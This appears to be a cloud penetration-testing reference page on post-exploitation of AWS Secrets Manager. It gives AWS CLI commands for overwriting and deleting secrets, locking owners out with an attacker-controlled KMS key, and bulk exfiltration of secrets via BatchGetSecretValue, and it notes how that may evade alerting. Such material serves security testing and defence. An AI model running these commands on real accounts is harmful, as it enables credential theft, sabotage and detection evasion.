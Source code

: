 # AWS - Secrets Manager Post Exploitation

## Secrets Manager

For more information check:

[[../../aws-services/aws-secrets-manager-enum.md]]

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

> [!WARNING]
> Note that previous values are also stored, so it's easy to just go back to the previous value.

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

If the attacker has the secretsmanager:UpdateSecret permission, they can configure the secret to use a KMS key owned by the attacker. That key is initially set up in such a way that anyone can access and use it, so updating the secret with the new key is possible. If the key was not accessible, the secret could not be updated.

After changing the key for the secret, the attacker modifies the configuration of their key so that only they can access it. This way, in the subsequent versions of the secret, it will be encrypted with the new key, and since there is no access to it, the ability to retrieve the secret would be lost.

It is important to note that this inaccessibility will only occur in later versions, after the content of the secret changes, since the current version is still encrypted with the original KMS key.

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimum number of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

## secretsmanager:RestoreSecret

It is possible to restore a secret, which allows the restoration of secrets that have been scheduled for deletion, since the minimum deletion period for secrets is 7 days and the maximum is 30 days. Together with the secretsmanager:GetSecretValue permission, this makes it possible to retrieve their contents.

To recover a secret that is in the process of being deleted, you can use the following command:
```bash
aws secretsmanager restore-secret \
  --secret-id <Secret_Name>
```

## secretsmanager:DeleteResourcePolicy

This action allows deleting the resource policy that controls who can access a secret. This could lead to a DoS if the resource policy was configured to allow access to a specific set of users.

To delete the resource policy:
```bash
aws secretsmanager delete-resource-policy \
  --secret-id <Secret_Name>
```

## secretsmanager:UpdateSecretVersionStage

The states of a secret are used to manage versions of a secret. AWSCURRENT marks the active version that applications use, AWSPREVIOUS keeps the previous version so that you can roll back if necessary, and AWSPENDING is used in the rotation process to prepare and validate a new version before making it the current one.

Applications always read the version with AWSCURRENT. If someone moves that label to the wrong version, the apps will use invalid credentials and may fail.

AWSPREVIOUS is not used automatically. However, if AWSCURRENT is removed or reassigned incorrectly, it may appear that everything is still running with the previous version.

```bash
aws secretsmanager update-secret-version-stage \
  --secret-id <your-secret-name-or-arn> \
  --version-stage AWSCURRENT \
  --move-to-version-id <target-version-id> \
  --remove-from-version-id <previous-version-id>
```

### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Abuse the Secrets Manager BatchGetSecretValue API to retrieve up to 20 secrets in a single request. This can dramatically reduce API-call volume compared to iterating GetSecretValue per secret. If filters are used (tags/name), ListSecrets permission is also required. CloudTrail still records one GetSecretValue event per secret retrieved in the batch.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Note that the permission `secretsmanager:BatchGetSecretValue` is not included enough to retrieve secrets, you also need `secretsmanager:GetSecretValue` for each secret you want to retrieve.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
  --secret-id-list <secret1> <secret2> <secret3> \
  --query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```

Exfiltrate by filters (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
  --filters Key=tag-key,Values=env \
  --max-results 20 \
  --query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
  --filters Key=tag-value,Values=prod \
  --max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
  --filters Key=name,Values=MyApp
```

Handling partial failures
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```

Impact
- Rapid “smash-and-grab” of many secrets with fewer API calls, potentially bypassing alerting tuned to spikes of GetSecretValue.
- CloudTrail logs still include one GetSecretValue event per secret retrieved by the batch.

